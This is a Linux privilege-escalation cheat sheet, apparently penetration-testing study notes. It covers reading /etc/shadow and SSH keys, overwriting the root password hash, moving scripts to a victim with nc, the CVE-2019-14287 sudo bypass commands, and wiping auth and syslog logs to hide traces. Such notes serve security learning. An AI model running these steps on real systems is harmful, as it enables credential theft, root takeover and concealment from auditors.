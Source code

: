 # Exploit Linux

<hr class="sl">

## Linux handy commands

<div class="row row-cols-md-2"><div>

Explore the host

* `bash`: start a bash shell
* `cd`: move to another folder
* `ls`: list files in a folder
* `pwd`: path to the current directory
* `cat`: print (usually small) files
* `less`: read (usually big) files
* `chmod`: change permissions
* `chown`: change owner
* `find`: find a file/folder
* `grep/egrep`: find something in a file
* `su`: change user
* `wget`: download something

> You may use python to do things for you, such as starting a web server to browse files <small>(`python3 -m  http.server`)</small>, or run commands <small>(`python -c 'import pty; pty.spawn("/bin/bash")'`)</small>.
</div><div>

Learn more about your environment

* `w`: who is logged in, and what they are doing
* `who`: who is logged in
* `echo $0`: language used by the current shell
* `whoami`: username
* `last`: list of last logged users
* `id`: username, group...
* `uname -a`: info about the machine
* `hostname`: info about the host
* `ps`: see running processes
* `env`: see environment variables
* `umask`: see the default perms on newly created files
* `getent`: shortcut to get entries about something, such as `passwd`
</div></div>

<hr class="sr">

## Linux environment

<div class="row row-cols-md-2 mt-3"><div>

**Look for (sensitive?) information** 🔑

* `/etc/passwd`: usernames, their groups, their home, and their shell
* `/etc/shadow` <small>(root)</small>: username, and their hashed password
* `/etc/group`/`groups`: groups
* `/etc/gshadow` <small>(root)</small>: groups hashed passwords (if any)
* `/proc/version`: information about the machine
* `cat /etc/*release`: information about the operating system
* `/etc/sudoers` <small>(root)</small>: sudoers, and rules applied to them, if any
* `ls -ahl /root/`: see if there are readable files in root's home
* `find / -name *id_dsa* 2> /dev/null`: RSA credentials

**Logs** 🗺️

* `/var/log/` (folder): log files
* Look for ufw (firewall) logs
* Look for apache logs
* Look for fail2ban logs
* Look for backups <small>(such as emails/conversations/database)</small>
* Look for mails `/var/mail/`
* `~/.bash_history`: there may be something useful in the bash_history
</div><div>

**Cron tasks** ⭐

Cron are the name given to automated tasks on Linux. See `crontab -l` for the tasks of the current user, and `ls -la /etc/cron*` for every cron tasks. Then, you may look for vulnerable cron tasks, meaning tasks using

* files that you can edit, 
* environment variables using paths/... that you can edit,
* glob-patterns that you may inject, for instance, if a command runs on a directory in which you can create files, you can create files named after the injectable command line flags.

<br>

**Potentially vulnerable services** 😢

* Apache: `apache2 -v` / `apache2ctl -M` / `httpd -v`
* Sudo: `sudo -V`
* PostgresSQL: `psql -V`
* MySQL: `mysql --version`

Once you found a service, look for CVE for the given version, and try to use one to escalate to root.

<br>

**Cleaning up your traces** 🧹

* `/var/log/auth.log`: ssh logs
* `/var/log/syslog`: firewall logs
* `/var/log/service`: "service" logs (ex: apache)
* ...

</div></div>

> **NOTE**: don't forget to redirect any errors with `some_command 2> /dev/null`.

<hr class="sl">

## Linux (automated) enumeration

<div class="row row-cols-md-2"><div>

There are many scripts checking if there are "common" files, testing commands... in order to look for information that would be useful for you to reach a higher level of privilege.

* [LinEnum](https://github.com/rebootuser/LinEnum) (5.4k ⭐): a script shell
* [traitor](https://github.com/liamg/traitor)  (5.4k ⭐): a script in Go
* [linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration) (lse, 2.5k ⭐): a script shell
* [linuxprivchecker](https://github.com/sleventyeleven/linuxprivchecker) (1.1k ⭐): a python script
</div><div>

There are multiple ways to get the script on your target

* Open a text editor, copy-paste it
  * run it `bash script.sh`,
  * or use chmod, then `./script.sh`
* Use `wget`
* Use `FTP`
* Use nc/netcat
  * On the victim: `nc -l -p port > script.sh`
  * On the attacker: `nc IP port < script.sh`
</div></div>

<hr class="sr">

## Linux privilege escalation

<div class="row row-cols-md-2"><div>

Privilege escalation refer to a process of obtaining super-administrator (a.k.a. root) privileges, starting from a non-root user.

* [gtfobins](https://gtfobins.github.io/) (7.4k ⭐): a reference to find ways to exploit a command with misconfigured permissions.
</div><div>

* Find a vulnerable service an exploit it <small>(apache, mysql...)</small>
* Find a service in which you can inject data, in order to exploit it
  * Exploit `sudo`
  * Exploit system files
  * Exploit cron jobs
  * Exploit script with the SUID bit
  * ...
* ...
</div></div>

<hr class="sl">

## Misconfigured permissions

<div class="row row-cols-md-2"><div>

If `/etc/shadow` was "intentionally" misconfigured

```bash
$ cat /etc/shadow
# if you can read it: try to bruteforce the password
# if you can write it: change the root password
# (copy a password / generate one mkpasswd -m sha-512 toto)
```

In OLD version of Linux, passwords could be stored in `/etc/passwd`

```bash
$ cat /etc/shadow
- root:x:...
+ root:hashed_password:...
# openssl passwd toto
```
</div><div>

Scripts having the SUID bit can be executed with the permissions of their owner. If you find one, try to see on GTFOBins if you have a well-known way to exploit it.

```bash
$ find / -perm -u=s -type f 2>/dev/null
```
</div></div>

<hr class="sr">

## Exploit sudo

*A good reference to exploit sudo: [SUDO_KILLER](https://github.com/TH3xACE/SUDO_KILLER)* (1.6k ⭐).

<div class="row row-cols-md-2"><div>

Try to find commands that can be run with sudo

```bash
$ sudo -l
# if asking a password, abort
# otherwise, 
# - look for the command on GTFOBins
# - look for environment variable loaded that may be exploited
```
</div><div>

In sudo before 1.8.28 (CVE-2019-14287), if a user was allowed to run one specific command using sudo, such as `nc`, then it was possible for any user to bypass the check, and run the command as root.

```bash
$ sudo -u#-1 nc
$ sudo -u#4294967295 nc
```
</div></div>